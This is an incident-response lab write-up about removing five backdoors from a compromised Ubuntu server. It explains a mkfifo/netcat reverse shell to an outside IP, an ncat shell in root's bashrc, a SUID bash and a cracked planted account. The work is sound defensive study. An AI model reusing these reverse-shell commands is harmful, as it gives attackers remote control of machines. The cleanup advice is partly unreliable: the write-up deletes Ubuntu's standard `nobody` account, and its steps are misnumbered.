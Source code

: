 ```yaml
---
layout: default
---
```


**Scenario:**

A server was compromised and has been isolated. There are 5 backdoors (aka, persistence mechanisms) on the machine. These have to be remediated before bringing the server back online.

**Server IP Address:** `10.10.166.173`

**Server Credentials:**   `giorgio:armani`   -   root privileges

### PREPARATION

- Add the IP to /etc/hosts for DNS resolution
- SSH into the server with the given credentials

### **SYSTEM INFO GATHERING**

![image](https://github.com/user-attachments/assets/c9d59eda-13b0-47d1-975c-d0c0d52add16)

OS Version: Ubuntu 20.04.4 LTS

### USER INFO GATHERING

![image](https://github.com/user-attachments/assets/bb8c747b-b212-490d-97c6-441e137515da)


There is a file called `.bad_bash`, which has both a SUID bit set and executable privileges for everyone on the machine. And the file itself runs as root, which makes for a horrible combination.

Upon running this file, it predictably gives us a Bash shell to work in, and a quick look into the Sudo privileges assigned to the user in the current session shows that we have full privileges. 

We currently have root privileges as the user `giorgio`, which is expected for the investigation, but this is notable because the attacker likely was able to use a lower-privileged account on the machine to run higher-privileged commands. That being said this executable is almost positively created by the attacker as a method of persistence.

So, our first backdoor the `.bad_bash` executable.


### BASHRC INVESTIGATION

Next, we look into the `bashrc` file, which is basically a script that runs every time a user logs into a terminal session, and there is a very strange alias assignment going on here:

![image](https://github.com/user-attachments/assets/66284924-83d9-4c92-b505-a1abce14a499)

Every time `ls` is run in the terminal, a reverse shell is spawned at address `172.10.6.9` on port `6969`, which would allow someone (the attacker) to essentially control the machine remotely through an interactive Bash terminal. Beyond its basic function, this command also includes other parameters that are likely executed to keep this whole action a secret from the user. For example, `&` means the reverse shell will be spawned in the background and `disown` takes this further by separating reverse shell process from the terminal session itself, so even if the terminal is closed, the shell will continue to run in the background. This is a sure sign of persistence.

So, our second persistence mechanism is a reverse shell that triggers when the user starts up the terminal session.

### CRONTAB INVESTIGATION

We also find an interesting scheduled job running continuously:

![image](https://github.com/user-attachments/assets/4342ab64-d3bc-4ad2-911d-d4ff22e23b7c)

Here, the attacker seems to be creating yet another reverse shell that connects to the same IP `172.10.6.9` and port `6969`. The `mkfifo` command here points to the establishment of a relay connection, where `mkfifo` creates a named pipe that acts as a sort of bridge between the shell and the attacker. This opens up a two-way communication.

Here is how I understand this to work:

1. The bridge: `mkfifo /tmp f`    Creates a named pipe file called `f` in the `/tmp` directory that sets up the bridge which sends AND receives data
2. The receiver:  `cat /tmp/f`    is constantly listening to this created named pipe and waits for any input.
3. The operator: `| /bin/sh -i`   Any input it picks up it executed within an interactive shell
4. `| /usr/bin/nc 172.10.6.9 6969 >/tmp/f`   And, finally, the shell’s output after execution is both sent to the attacker at the specified IP and port and written back to the pipe itself `/tmp/f` , which opens the way for the communication loop.

Third persistence mechanism: a Netcat relay that is set up via a cronjob that runs all the time.

### ROOT INVESTIGATION

Upon signing into the root account, there is an instant error `Ncat: TIMEOUT`, followed by a command that, once again, points to an established shell with the attacker’s IP via `ncat`

![image](https://github.com/user-attachments/assets/913362d7-c9f7-4645-b7ef-60e5b28a207d)

Ncat is an enhanced version of the original Netcat and is essentially part of Nmap. Some of its features include support for encryption and better relay capabilities, which would make it preferable to the standard Netcat (nc) command.

A short investigation leads to the discovery of this very command being called in, once again, the Bashrc file, but this time for root:

![image.png](attachment:45593c5f-c264-47e5-8f94-96e83aea1264:image.png)

Every time a Root terminal is started up, Ncat will send a Bash shell to the attacker IP.

Fourth persistence mechanism: a shell spawned with Ncat every time a root terminal is started.

### FILE SYSTEM INVESTIGATION

While enumerating the machine earlier, I had noticed and taken note of an unusual username `nobody` in both the /etc/passwd and /etc/shadow files, where the latter contains the password hash.

![image](https://github.com/user-attachments/assets/ac531cc2-362c-4b73-9530-b9d488e1a906)

This may indeed be a new user created on the machine as a form of persistence, so the attacker has constant access to the machine.

Then, as a final step, I unshadowed the passwd and shadow files and successfully obtained the password for the `nobody` user:

![image](https://github.com/user-attachments/assets/c5c3dbd0-e19d-4e20-bd8b-1b97be363b35)

![image](https://github.com/user-attachments/assets/36c24766-01b3-41e2-9cd2-c094f69f5783)

`nobody:nobody`

Final persistence mechanism: a new user created on the machine

### REMEDIATION

Persistence Mechanism #1: simply remove the executable with `rm .bad_bash`

Persistence Mechanism #2: remove the line on the Crontab file:

1. `crontab -e`   Open up the crontab file to edit it
2. `I`   Switch to Insert mode (since this is Vim)
3. Remove the line
4. `ESC`   Go back to Command mode
5. `:wq`   Write the changes to the file and exit the editor

Persistence Mechanism #3: remove the alias line that sets up the relay in `bashrc`

Persistence Mechanism #4:  remove the Ncat command from root’s `bashrc`

Persistence Mechanism #5: remove the `nobody` user account and perform any other cleanup

1. `sudo userdel nobody`   Remove the user account
2. `find / -type f -user "nobody" 2>/dev/null`   Search for any files that the user owns
3. `sudo rm -r /nonexistent`   Remove the suspicious directory

And here, we actually located a directory called `nonexistent`, which includes files owned by the `nobody` user and also has a file called `.youfoundme`:

![image](https://github.com/user-attachments/assets/2f34fa11-a66f-41d0-87bf-1521b9c7655b)

With that, we have successfully found and removed all backdoor instances on this machine and are ready for operations to turn to normal…..after we’ve gone through the process another couple of times with a few more eyes. Can’t be too careful ;)

